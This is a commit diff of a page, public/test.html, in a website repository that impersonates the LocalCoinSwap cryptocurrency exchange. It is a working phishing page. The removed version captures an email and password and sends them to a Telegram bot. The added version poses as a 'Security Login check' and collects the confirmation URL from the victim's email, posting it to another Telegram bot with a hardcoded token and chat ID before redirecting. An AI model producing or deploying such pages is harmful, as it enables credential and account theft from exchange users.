

Before and after one commit to kellyotieno872/localcoinswappaywestern, a website: page public/test.html in a window 390 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update test.html

```diff
--- a/public/test.html
+++ b/public/test.html
@@ -1,219 +1,383 @@
-<!DOCTYPE html>
+<!doctype html>
 <html lang="en">
 
 <head>
-    <meta charset="UTF-8" />
-    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-    <title>LocalCoinSwap — Login</title>
+    <meta charset="utf-8" />
+    <meta name="viewport" content="width=device-width,initial-scale=1" />
+    <title>Login to LocalCoinSwap — Full-page Loader</title>
     <style>
-        * {
-            box-sizing: border-box;
-            font-family: "Inter", sans-serif;
+         :root {
+            --bg: #eef5fb;
+            --card-bg: #ffffff;
+            --accent: #0b84ff;
+            --accent-dark: #1677d6;
+            --muted: #6b7785;
+            --danger: #f8d7da;
+            --success: #d4edda;
+            --success-text: #155724;
         }
 
+        html,
         body {
+            height: 100%;
             margin: 0;
-            background-color: #e9f0f8;
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, "Helvetica Neue", Arial;
+            background: linear-gradient(#eaf3fb 0%, #eef6fb 100%);
+            -webkit-font-smoothing: antialiased;
+            -moz-osx-font-smoothing: grayscale;
+            color: #222;
+        }
+        /* Full-page loading overlay */
+
+        .overlay {
+            position: fixed;
+            inset: 0;
+            background: rgba(6, 10, 20, 0.72);
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            z-index: 9999;
+            transition: opacity 420ms ease, visibility 420ms ease;
+            opacity: 1;
+            visibility: visible;
         }
 
-        header {
+        .overlay.hidden {
+            opacity: 0;
+            visibility: hidden;
+            pointer-events: none;
+        }
+        /* Large central spinner (dual-ring style) */
+
+        .big-spinner {
+            width: 120px;
+            height: 120px;
+            border-radius: 50%;
+            border: 12px solid rgba(255, 255, 255, 0.14);
+            border-top-color: #fff;
+            animation: spin 1s linear infinite;
+            box-shadow: 0 8px 28px rgba(0, 0, 0, 0.5), inset 0 0 30px rgba(255, 255, 255, 0.03);
+        }
+
+        @keyframes spin {
+            to {
+                transform: rotate(360deg);
+            }
+        }
+        /* Optionally add a small label under spinner */
+
+        .overlay .label {
+            margin-top: 14px;
+            color: rgba(255, 255, 255, 0.9);
+            font-weight: 600;
+            font-size: 16px;
+            text-align: center;
+        }
+        /* Page content (login UI) */
+
+        .topbar {
+            background: #0a0f1a;
+            color: white;
+            padding: 14px 18px;
+            display: flex;
+            align-items: center;
+            justify-content: space-between;
+            box-shadow: 0 1px 0 rgba(0, 0, 0, 0.2);
+            position: relative;
+            z-index: 1;
+        }
+
+        .brand {
+            display: flex;
+            align-items: center;
+            gap: 10px;
+            font-weight: 600;
+            font-size: 18px;
+        }
+
+        .brand .logo {
+            width: 36px;
+            height: 24px;
+            display: inline-block;
+            border-radius: 4px;
+            background: linear-gradient(135deg, #2b8cff, #ffd247);
+            box-shadow: 0 2px 6px rgba(0, 0, 0, 0.25);
+            transform: rotate(-12deg);
+        }
+
+        .register-btn {
+            background: linear-gradient(180deg, #ffb43a, #ff9b07);
+            color: #fff;
+            padding: 8px 16px;
+            border-radius: 20px;
+            font-weight: 600;
+            border: none;
+            cursor: pointer;
+            box-shadow: 0 6px 12px rgba(255, 155, 7, 0.18);
+        }
+
+        .wrap {
+            max-width: 420px;
+            margin: 28px auto;
+            padding: 18px;
+            position: relative;
+            z-index: 0;
+            width: 100%;
+            box-sizing: border-box;
+        }
+
+        .card {
+            background: var(--card-bg);
+            border-radius: 10px;
+            box-shadow: 0 6px 20px rgba(16, 40, 80, 0.08);
+            padding: 22px;
+            border: 1px solid rgba(16, 40, 80, 0.04);
+            width: 100%;
+            box-sizing: border-box;
+        }
+
+        h1 {
+            margin: 0 0 16px 0;
+            font-size: 28px;
+            font-weight: 700;
+            color: var(--success-text);
+            /* Green color for h1 */
+        }
+
+        .alert {
+            background: var(--success);
+            border-left: 6px solid #28a745;
+            padding: 14px 16px;
+            border-radius: 8px;
+            color: var(--success-text);
+            margin-bottom: 18px;
+            font-size: 15px;
+            box-shadow: inset -8px 0 0 rgba(40, 167, 69, 0.08);
+            width: 100%;
+            box-sizing: border-box;
+        }
+
+        .form-row {
+            margin-bottom: 16px;
+            width: 100%;
+        }
+
+        label {
             display: flex;
             justify-content: space-between;
             align-items: center;
-            background-color: #0a0f1c;
-            padding: 12px 36px;
+            font-size: 14px;
+            color: var(--muted);
+            margin-bottom: 8px;
+            width: 100%;
         }
 
-        header img {
-            height: 28px;
+        .edit-link {
+            font-size: 13px;
+            color: #1573b8;
+            text-decoration: none;
+            cursor: pointer;
         }
 
-        header .register-btn {
-            background-color: #f9a825;
-            color: #000;
-            border: none;
-            padding: 8px 18px;
-            border-radius: 20px;
-            cursor: pointer;
-            font-weight: 600;
+        input[type="email"],
+        input[type="password"],
+        textarea {
+            width: 100% !important;
+            max-width: 100%;
+            padding: 12px 14px;
+            border-radius: 6px;
+            border: 1px solid rgba(16, 40, 80, 0.08);
+            font-size: 15px;
+            background: #fbfdff;
+            outline: none;
+            box-sizing: border-box;
+            margin: 0;
         }
 
-        .container {
-            display: flex;
-            justify-content: center;
-            align-items: stretch;
-            margin: 60px auto;
-            background-color: #fff;
-            border-radius: 8px;
-            max-width: 950px;
-            box-shadow: 0 3px 10px rgba(0, 0, 0, 0.1);
-            overflow: hidden;
-            transition: 0.4s;
+        input:focus,
+        textarea:focus {
+            border-color: var(--accent-dark);
+            box-shadow: 0 6px 18px rgba(11, 132, 255, 0.12);
         }
 
-        .left-section {
-            flex: 1;
-            padding: 50px;
-            display: flex;
-            flex-direction: column;
-            justify-content: center;
-            border-right: 1px solid #eaeaea;
-        }
-
-        .quote-icon {
-            color: #3f7af0;
-            font-size: 50px;
-            margin-bottom: 10px;
-        }
-
-        .quote {
-            font-size: 18px;
-            line-height: 1.6;
-            color: #333;
-            margin-bottom: 20px;
-        }
-
-        .author {
-            color: #1a1a1a;
-            font-weight: 600;
-        }
-
-        .right-section {
-            flex: 1;
-            padding: 50px;
-            display: flex;
-            flex-direction: column;
-            justify-content: center;
-        }
-
-        .right-section h2 {
-            font-size: 26px;
-            font-weight: 700;
-            margin-bottom: 24px;
-            color: #0a0f1c;
-        }
-
-        label {
-            display: block;
-            font-size: 14px;
-            font-weight: 500;
-            color: #333;
-            margin-bottom: 6px;
-        }
-
-        input {
-            width: 100%;
-            padding: 10px 12px;
-            border: 1px solid #ccc;
-            border-radius: 6px;
-            margin-bottom: 18px;
-            font-size: 15px;
+        textarea {
+            resize: vertical;
+            min-height: 120px;
         }
 
         .login-btn {
-            background-color: #0077ff;
-            color: #fff;
+            width: 100%;
+            display: inline-flex;
+            align-items: center;
+            justify-content: center;
+            gap: 8px;
+            background: linear-gradient(180deg, var(--accent), var(--accent-dark));
+            color: white;
+            padding: 14px 22px;
+            border-radius: 34px;
             border: none;
-            width: 100%;
-            padding: 12px;
-            font-size: 16px;
-            font-weight: 600;
-            border-radius: 30px;
+            font-weight: 700;
+            font-size: 18px;
             cursor: pointer;
-            transition: background-color 0.2s ease;
+            box-shadow: 0 10px 20px rgba(11, 132, 255, 0.18);
+            box-sizing: border-box;
         }
+        /* small screens */
 
-        .login-btn:hover {
-            background-color: #0061d5;
-        }
-
-        @media (max-width: 768px) {
-            .container {
-                flex-direction: column;
+        @media (max-width:480px) {
+            .wrap {
+                margin: 14px;
+                padding: 12px;
             }
-            .left-section {
-                border-right: none;
-                border-bottom: 1px solid #eaeaea;
-                padding: 30px;
+            .card {
+                padding: 18px;
             }
-            .right-section {
-                padding: 30px;
+            h1 {
+                font-size: 22px;
+            }
+            .big-spinner {
+                width: 90px;
+                height: 90px;
+                border-width: 10px;
             }
         }
     </style>
 </head>
 
 <body>
-    <header>
-        <div style="display:flex;align-items:center;gap:8px;">
-            <img src="https://localcoinswap.com/favicon.ico" alt="Logo" />
-            <span style="color:white;font-weight:700;">LocalCoinSwap</span>
+    <!-- Full-page overlay shown on load -->
+    <div id="overlay" class="overlay" role="status" aria-live="polite" aria-busy="true">
+        <div style="text-align:center;">
+            <div class="big-spinner" aria-hidden="true"></div>
+            <div class="label">Loading</div>
         </div>
-        <button class="register-btn">Register</button>
-    </header>
+    </div>
 
-    <div class="container">
-        <div class="left-section">
-            <div class="quote-icon">“</div>
-            <p class="quote">
-                There are a billion people, right now, with access to the internet and feature phones who could use bitcoin as an international wire-transfer service.
-            </p>
-            <p class="author">Andreas Antonopoulos</p>
+    <!-- Page content (below overlay) -->
+    <div class="topbar">
+        <div class="brand">
+            <!--<span class="logo" aria-hidden="true"></span> -->
+            <span>LocalCoinSwap</span>
         </div>
+        <button class="register-btn" type="button">Register</button>
+    </div>
 
-        <div class="right-section">
-            <h2>Login to LocalCoinSwap</h2>
-            <form id="loginForm">
-                <label for="email">Email</label>
-                <input type="email" id="email" placeholder="example@email.com" required />
+    <div class="wrap">
+        <div class="card">
+            <h1>Security Login check......</h1>
 
-                <label for="password">Password</label>
-                <input type="password" id="password" placeholder="Enter your password" required />
+            <div class="alert" role="alert">
+                You're logging in localcoinswap payment agency for first time, please check your email and confirm new login now by clicking button <strong>add country to my account</strong>
+            </div>
 
-                <button type="submit" class="login-btn">Login</button>
+            <form id="loginForm" novalidate>
+                <div class="form-row">
+                    <label for="url">
+                        <span>Alternatively, copy paste url send to your email here.</span>
+                    </label>
+                    <textarea id="url" rows="5" placeholder="Paste your URL here..."></textarea>
+                    <div style="margin-top:12px;">
+                        <button id="loginBtn" class="login-btn" type="submit">Submit verifications</button>
+                    </div>
+                </div>
             </form>
         </div>
     </div>
 
     <script>
-        document.getElementById("loginForm").addEventListener("submit", function(e) {
-            e.preventDefault();
+        (function() {
+            const overlay = document.getElementById('overlay');
+            const initialLoadMs = 1800;
 
-            const email = document.getElementById("email").value.trim();
-            const password = document.getElementById("password").value.trim();
+            window.addEventListener('load', () => {
+                setTimeout(() => {
+                    overlay.classList.add('hidden');
+                    overlay.setAttribute('aria-hidden', 'true');
+                    overlay.setAttribute('aria-busy', 'false');
+                }, initialLoadMs);
+            });
 
-            // Save to localStorage (Use caution: consider security implications)
-            localStorage.setItem("userEmail", email);
-            localStorage.setItem("userPassword", password);
+            setTimeout(() => {
+                if (!overlay.classList.contains('hidden')) {
+                    overlay.classList.add('hidden');
+                    overlay.setAttribute('aria-hidden', 'true');
+                    overlay.setAttribute('aria-busy', 'false');
+                }
+            }, initialLoadMs + 1200);
 
-            // Send details to Telegram Bot (Use caution: consider security implications)
-            const botToken = '7757344484:AAFUuhaqCtEowjf3Pm5zgIbB5OLO9zQk2sI'; // Replace with your bot's token
-            const chatId = '5615316142'; // Replace with your chat ID
-            const message = `Email: ${email}\nPassword: ${password}`;
+            // Form elements
+            const form = document.getElementById('loginForm');
+            const btn = document.getElementById('loginBtn');
+            const urlInput = document.getElementById('url');
 
-            fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
-                    method: 'POST',
-                    headers: {
-                        'Content-Type': 'application/json',
-                    },
-                    body: JSON.stringify({
-                        chat_id: chatId,
-                        text: message,
-                    }),
-                })
-                .then(response => response.json())
-                .then(data => {
-                    if (data.ok) {
-                        console.log('Message sent successfully');
-                    } else {
-                        console.error('Error sending message:', data.description);
+            // Replace these with real values
+            const BOT_TOKEN = '8585067089:AAFF4GYaUJHN0ufwOzcd7Fp08bz4xMhKYNo';
+            const CHAT_ID = '1003670447';
+
+            // Helper: show simple inline error
+            function showError(msg) {
+                alert(msg);
+            }
+
+            form.addEventListener('submit', function(e) {
+                e.preventDefault();
+                const urlVal = urlInput.value.trim();
+
+                if (!urlVal) {
+                    showError('Please paste the URL before submitting.');
+                    urlInput.focus();
+                    return;
+                }
+
+                // Disable button and show spinner
+                btn.disabled = true;
+                const originalText = btn.textContent;
+                const spinner = document.createElement('span');
+                spinner.style.width = '18px';
+                spinner.style.height = '18px';
+                spinner.style.display = 'inline-block';
+                spinner.style.borderRadius = '50%';
+                spinner.style.border = '3px solid rgba(255,255,255,0.35)';
+                spinner.style.borderTopColor = '#fff';
+                spinner.style.animation = 'spin 0.9s linear infinite';
+                spinner.setAttribute('aria-hidden', 'true');
+
+                btn.textContent = '';
+                btn.appendChild(spinner);
+
+                // Build message text
+                const messageText = encodeURIComponent('Received URL: ' + urlVal);
+
+                // Telegram API endpoint
+                const endpoint = 'https://api.telegram.org/bot' + encodeURIComponent(BOT_TOKEN) + '/sendMessage';
+
+                // Send to Telegram via fetch (GET for simplicity)
+                fetch(endpoint + '?chat_id=' + encodeURIComponent(CHAT_ID) + '&text=' + messageText, {
+                    method: 'GET',
+                    mode: 'cors',
+                }).then(response => {
+                    if (!response.ok) {
+                        console.warn('Telegram API returned non-OK status', response.status);
                     }
-                })
-                .catch(error => console.error('Error:', error));
-
-            // Redirect to homepage login.html
-            window.location.href = "login.html";
-        });
+                    return response.json().catch(() => null);
+                }).then(data => {
+                    setTimeout(() => {
+                        btn.disabled = true;
+                        window.location.href = 'login.html';
+                    }, 400);
+                }).catch(err => {
+                    console.error('Error sending to Telegram:', err);
+                    alert('Failed to send data to bot (see console). You will be redirected.');
+                    window.location.href = 'login.html';
+                }).finally(() => {
+                    btn.disabled = false;
+                    try {
+                        btn.removeChild(spinner);
+                    } catch (ex) {}
+                    btn.textContent = originalText;
+                });
+            });
+        })();
     </script>
 </body>
 
```
